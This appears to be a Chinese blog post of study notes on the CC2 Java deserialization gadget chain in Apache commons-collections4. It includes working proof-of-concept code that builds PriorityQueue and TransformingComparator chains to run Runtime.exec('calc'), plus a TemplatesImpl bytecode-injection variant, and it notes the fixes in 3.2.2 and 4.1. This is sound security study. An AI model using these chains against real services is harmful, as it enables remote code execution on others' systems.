



# 前言

学习自《Java安全漫谈 - 16.commons-collections4与漏洞修复》。学习了一波CC2。学完这个就继续去JavaWeb了。JavaWeb看个1星期就爬取背马原，看概率论了。


# 预备知识

之前所分析的CC链都是基于CommonsCollections3.2.1及其之前的版本。去maven仓库搜索一下的话，就会发现存在两个CommonsCollections：




一个包名是`org.apache.commons.collections4`，另外一个是`org.apache.commons.collections`。主要原因如下：

> 在2015年底commons-collections反序列化利⽤链被提出时，Apache Commons Collections有以下两 个分⽀版本： commons-collections:commons-collections org.apache.commons:commons-collections4 可⻅，groupId和artifactId都变了。前者是Commons Collections⽼的版本包，当时版本号是3.2.1；后 者是官⽅在2013年推出的4版本，当时版本号是4.0。那么为什么会分成两个不同的分⽀呢？ 官⽅认为旧的commons-collections有⼀些架构和API设计上的问题，但修复这些问题，会产⽣⼤量不能 向前兼容的改动。所以，commons-collections4不再认为是⼀个⽤来替换commons-collections的新版 本，⽽是⼀个新的包，两者的命名空间不冲突，因此可以共存在同⼀个项⽬中。


 所以，CC2就是一条专门用来应用于`CC 4.0`版本的新链子。

至于`CC 3.x`版本的链子是否仍然可以在4.0版本中使用，本文就不作探讨了，经过学习，是可以的，唯一需要更改的地方就是`LazyMap`的`decorate()`方法，改名成了`lazyMap()`。

链子如下：

```java
        Transformer[] trueTransformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
        };
        Transformer[] fakeTransformers = new Transformer[]{
                new ConstantTransformer(1)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);


        SerializeUtil.setFieldValue(chainedTransformer,"iTransformers",trueTransformers);

        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        SerializeUtil.unserialize(bytes);

    }

    public static void test1() throws Exception{
        Transformer[] trueTransformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
        };
        Transformer[] fakeTransformers = new Transformer[]{
                new ConstantTransformer(1)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.lazyMap(innerMap,chainedTransformer);


        TiedMapEntry tiedMapEntry = new TiedMapEntry<>(outerMap,"feng1");
        Map expMap = new HashMap();

        expMap.put(tiedMapEntry,"feng2");

        outerMap.remove("feng1");

        Class clazz = Class.forName("org.apache.commons.collections4.functors.ChainedTransformer");
        Field field = clazz.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer,trueTransformers);
        byte[] bytes = SerializeUtil.serialize(expMap);
        SerializeUtil.unserialize(bytes);
```


CC2这条新链新在哪里呢？新在这多出的两个类。


## PriorityQueue

优先队列，和普通的`queue`的差别就在于，它不是简单的先进先出，它的每个元素都有一个自己的`“优先级”`。每次出列的时候，不再是最先进的先出，而是优先级最高的先出。基本的操作和`queue`差不多：

| throw Exception    | 返回false或null |                    |
| ------------------ | --------------- | ------------------ |
| 添加元素到队尾     | add(E e)        | boolean offer(E e) |
| 取队首元素并删除   | E remove()      | E poll()           |
| 取队首元素但不删除 | E element()     | E peek()           |


> 要使用PriorityQueue，我们就必须给每个元素定义“优先级”。放入PriorityQueue的元素，必须实现Comparable接口，PriorityQueue会根据元素的排序顺序决定出队的优先级。
>
> 如果我们要放入的元素并没有实现Comparable接口怎么办？PriorityQueue允许我们提供一个Comparator对象来判断两个元素的顺序。
>
> PriorityQueue实现了一个优先队列：从队首获取元素时，总是获取优先级最高的元素。
>
> PriorityQueue默认按元素比较的顺序排序（必须实现Comparable接口），也可以通过Comparator自定义排序算法（元素就不必实现Comparable接口）。


之所以会用到它，是因为它是这条链子的起始点，它的`readObject()`方法：

```java
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();
    }
```

这里的`queue`是通过重新创建，然后获取size并通过`s.readObject`读取`objectAnnotation`来填充入元素，因为这个`PriorityQueue`的`queue`属性是个瞬态属性：

```java
transient Object[] queue; // non-private to simplify nested class access
```


得到`queue`后，进入`heapify()`方法：

```java
    private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

可以发现优先队列的内部是通过堆来实现的（数据结构学的又差又忘完了的我直接流泪）。再跟进`siftDown()`：

```java
    private void siftDown(int k, E x) {
        if (comparator != null)
            siftDownUsingComparator(k, x);
        else
            siftDownComparable(k, x);
    }
```

如果初始化的时候传入的`比较器`不为空的话，就利用这个比较器对这个二叉堆进行调整：

```java
    @SuppressWarnings("unchecked")
    private void siftDownUsingComparator(int k, E x) {
        int half = size >>> 1;
        while (k < half) {
            int child = (k << 1) + 1;
            Object c = queue[child];
            int right = child + 1;
            if (right < size &&
                comparator.compare((E) c, (E) queue[right]) > 0)
                c = queue[child = right];
            if (comparator.compare(x, (E) c) <= 0)
                break;
            queue[k] = c;
            k = child;
        }
        queue[k] = x;
    }
```

关键在于：

```java
            if (right < size &&
                comparator.compare((E) c, (E) queue[right]) > 0)
                c = queue[child = right];
            if (comparator.compare(x, (E) c) <= 0)
```


调用了`compare()`方法。说到这，就要说到关键的第二个类了。


## TransformingComparator

它是一个调用了`Transformer`的比较器类，看一下它的`compare()`方法：

```java
    public int compare(final I obj1, final I obj2) {
        final O value1 = this.transformer.transform(obj1);
        final O value2 = this.transformer.transform(obj2);
        return this.decorated.compare(value1, value2);
    }
```

它对传入的两个要比较的元素分别调用了`this.transformer.transform`。至于这个`transform`是啥，相信都很熟了，`InvokerTransformer`，`ChainedTransformer`啥的。


# 分析和构造

其实也没啥好分析的了，就是一条从`PriorityQueue`到`Transformer`的链子。稍微构造一下即可：

```java
package com.summer.util;

import javassist.ClassPool;
import javassist.CtClass;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class SerializeUtil {
    public static byte[] getEvilCode() throws Exception{
        ClassPool pool = ClassPool.getDefault();
        CtClass clazzz = pool.get("EvilTest");
        byte[] code = clazzz.toBytecode();
        return code;
    }

    public static void unserialize(byte[] bytes) throws Exception{
        try(ByteArrayInputStream bain = new ByteArrayInputStream(bytes);
            ObjectInputStream oin = new ObjectInputStream(bain)){
            oin.readObject();
        }
    }

    public static byte[] serialize(Object o) throws Exception{
        try(ByteArrayOutputStream baout = new ByteArrayOutputStream();
            ObjectOutputStream oout = new ObjectOutputStream(baout)){
            oout.writeObject(o);
            return baout.toByteArray();
        }
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj,value);
    }
}

```

```java
        Transformer[] trueTransformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
        };
        Transformer[] fakeTransformers = new Transformer[]{
                new ConstantTransformer(1)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);


        SerializeUtil.setFieldValue(chainedTransformer,"iTransformers",trueTransformers);

        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        SerializeUtil.unserialize(bytes);
```

之所以需要这两行：

```java
        priorityQueue.add(1);
        priorityQueue.add(2);
```

如果不懂数据结构光靠想的话也很容易，内部的堆需要调整，进行元素的比较的话，肯定得至少两个元素才可以。这一点也在反序列化链的代码中得到了体现：

```java
    private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

> java中有三种移位运算符
>
> <<    :   左移运算符，num << 1,相当于num乘以2
>
> \>>    :   右移运算符，num >> 1,相当于num除以2
>
> \>>>   :   无符号右移，忽略符号位，空位都以0补齐


> 对于：>>>
>
>  无符号右移，忽略符号位，空位都以0补齐
>
> value >>> num   --  num 指定要移位值value 移动的位数。


需要它无符号右移一位再减去1仍然大于等于0，所以`size`至少得是2才行。




## 利用TemplatesImpl

算是一种改进了，利用`TemplatesImpl`可以不用到数组。具体的思路就是用到之前分析的`newTransformer`。POC如下：

```java
        byte[] evilCode = SerializeUtil.getEvilCode();
        TemplatesImpl templates = new TemplatesImpl();
        SerializeUtil.setFieldValue(templates,"_bytecodes",new byte[][]{evilCode});
        SerializeUtil.setFieldValue(templates,"_name","feng");

        Transformer transformer = new InvokerTransformer("toString",null,null);

        TransformingComparator transformingComparator = new TransformingComparator(transformer);

        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);
        priorityQueue.add(templates);
        priorityQueue.add(templates);

        SerializeUtil.setFieldValue(transformer,"iMethodName","newTransformer");

        byte[] bytes = SerializeUtil.serialize(priorityQueue);
        SerializeUtil.unserialize(bytes);
```

这里也用到了简化数组的方式，注意到我们没有随便给值，而是都给了构造好的`TemplatesImpl`对象：

```java
        priorityQueue.add(templates);
        priorityQueue.add(templates);
```

原因还是在：

```java
            if (right < size &&
                comparator.compare((E) c, (E) queue[right]) > 0)
                c = queue[child = right];
            if (comparator.compare(x, (E) c) <= 0)
```

直接把值给传了进去，免去了一次`ConstantTransformer`。


还有一个小细节的问题就是，为什么两次add都传了`templates`，只传一个不可以吗。

打断点会发现，跟进到`if (comparator.compare(x, (E) c) <= 0)`的时候，`x`总是数字1，而`c`总是`templates`的对象，然后先对1进行调用，会报错总而没法执行后面的。因为不太懂这个二叉堆，所以大致地理解就是，这样的原因是无论`templates`对象是先add还是后add，在数组中都在索引1上：



只有在索引0上才行。这也就是`ysoserial`采取的方式：

```java
		// stub data for replacement later
		queue.add(1);
		queue.add(1);


         // switch contents of queue
		final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
		queueArray[0] = templates;
		queueArray[1] = 1;

		return queue;
```

一开始`add`没有控制，最后通过反射直接控制内部的数组，把`templates`对象放在索引0的位置上即可。

为了方便，我们直接两个都传`templates`。


# 修复

修复是在3.2.2和4.1版本上，直接放P神的原话了：

> 先看3.2.2，通过diff可以发现，新版代码中增加了⼀个⽅法 FunctorUtils#checkUnsafeSerialization ，⽤于检测反序列化是否安全。如果开发者没有设置全 局配置 org.apache.commons.collections.enableUnsafeSerialization=true ，即默认情况下会 抛出异常。 这个检查在常⻅的危险Transformer类 （ InstantiateTransformer 、 InvokerTransformer 、 PrototypeFactory 、 CloneTransforme r 等）的 readObject ⾥进⾏调⽤，所以，当我们反序列化包含这些对象时就会抛出⼀个异常
>
> 再看4.1，修复⽅式⼜不⼀样。4.1⾥，这⼏个危险Transformer类不再实现 Serializable 接⼝，也就 是说，他们⼏个彻底⽆法序列化和反序列化了。更绝。

所以CC链的利用也只能在于3.2.2之前和4.1之前。

# 参考链接

《Java安全漫谈 - 16.commons-collections4与漏洞修复》

https://y4tacker.blog.csdn.net/article/details/119112817

https://y4tacker.blog.csdn.net/article/details/119169235

